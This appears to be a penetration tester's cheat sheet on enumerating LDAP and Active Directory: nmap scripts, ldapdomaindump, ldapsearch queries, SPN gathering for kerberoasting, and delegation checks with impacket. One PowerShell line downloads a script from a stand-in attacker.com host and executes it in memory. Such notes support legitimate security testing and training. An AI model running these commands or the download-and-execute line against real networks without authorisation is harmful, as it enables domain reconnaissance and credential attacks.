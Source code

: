 # LDAP/389/636 (TCP)

## Questions to ask yourself
  *  Is the LDAP server also the domain controller?
  *  How many machines/users exist in the domain?
      *  Which are high-value targets?

## Things to remember
  *  LDAP [distinguished names](https://ldap.com/ldap-dns-and-rdns/) describe a position in the directory heirarchy
  *  List of some [famous LDAP filters](https://www.ldapexplorer.com/en/manual/109050000-famous-filters.htm) for easy searching

## Useful tools
  *  [`nmap`](https://nmap.org/) for various NSE enum scripts
  *  [`ldapdomaindump`](https://github.com/dirkjanm/ldapdomaindump) for dumping domain objects
  *  [`ldapsearch`](https://linux.die.net/man/1/ldapsearch) for precise LDAP searching
  *  Custom [`Invoke-LDAPSearch.ps1`](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Privilege%20Escalation/Windows/Powershell%20Scripts/Invoke-LDAPSearch.ps1) for searching LDAP from `powershell`
  *  [`impacket-GetUserSPNs`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) and [`Get-SPN.ps1`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) for gathering service principal names
  *  [`impacket-findDelegation`](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) for automatically gathering delegation permissions

## Additonal NSE enumeration
  *  `nmap` [LDAP NSE scripts](https://nmap.org/search/?q=ldap) without credentials will not yield much
      *  See [`ldap-search.nse`](https://nmap.org/nsedoc/scripts/ldap-search.html) docs for more examples

```
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap*"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.maxobjects=-1'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.qfilter=users,ldap.attrib=sAMAccountName,ldap.maxobjects=-1'
```

## LDAP domain dump
  *  `ldapdomaindump` for reading all objects from an LDAP server
      *  Create a new directory for this, outputs a lot of files
      *  Likely requires credentials

```
ldapdomaindump 10.0.0.1
ldapdomaindump ldapserver.example.com
ldapdomaindump -u "bob" -p "password" 10.0.0.1
ldapdomaindump -u "bob" -p "password" ldapserver.example.com
```

## LDAP search
  *  [`hacktricks`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) for more/better examples
  *  `ldapsearch` for finding specific objects from an LDAP server
  *  Custom powershell script `Invoke-LDAPSearch.ps1` for sending LDAP queries
      *  Used to perform LDAP searches from a domain-joined machine
      *  No additional pivot tools needed

```
ldapsearch -x -H ldap://10.0.0.1 -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com' samaccounttype=805306368
ldapsearch -x -H ldap://ldapserver.example.com -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://ldapserver.example.com -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
```

```
PS > Invoke-LDAPSearch -connect "LDAP://10.0.0.1/DC=example,DC=com"
PS > Invoke-LDAPSearch -filter "samaccounttype=805306368"
PS > Invoke-LDAPSearch -username "bob" -password "pass123"
```

## Gathering SPNs
  *  Hunt for target services by querying for [service principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
  *  Useful preparation for [kerberoasting](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)
  *  `impacket-GetUserSPNs` for gathering service principal names from linux
  *  `Get-SPN.ps1` or `Invoke-LDAPSearch.ps1` can be used to enumerate SPNs without requesting tickets

```
impacket-GetUserSPNs example.com/bob:password -dc-ip 10.0.0.1
```

```
PS > IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Get-SPN.ps1');
PS > Get-SPN -type service -search "*"
```

```
PS > Invoke-LDAPSearch "serviceprincipalname=*"
```

## Delegation permissions
  *  Hunt for user/computer objects configured with [delegation permissions](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Delegation.md)
  *  Enumerating delegation relies on specific object attributes being readable
      *  [`useraccountcontrol`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) attribute to [check what delegations are enabled](https://www.techjutsu.ca/uac-decoder) 
      *  [`msDS-AllowedToDelegateTo`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtodelegateto) to show SPNs allowed for constrained delegation
  *  `ldapsearch` and `impacket` scripts for enumerating delegation

```
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' samaccounttype=805306368 samaccountname useraccountcontrol
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' msDS-AllowedToDelegateTo=* samaccountname msDS-AllowedToDelegateTo
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' msDS-AllowedToActOnBehalfOfOtherIdentity=* samaccountname msDS-AllowedToActOnBehalfOfOtherIdentity
```

```
impacket-findDelegation example.com/bob:password -dc-ip 10.0.0.1
impacket-rbcd -delegate-to 'DC$' -dc-ip 10.0.0.1 -action read example.com/bob:'password'
```
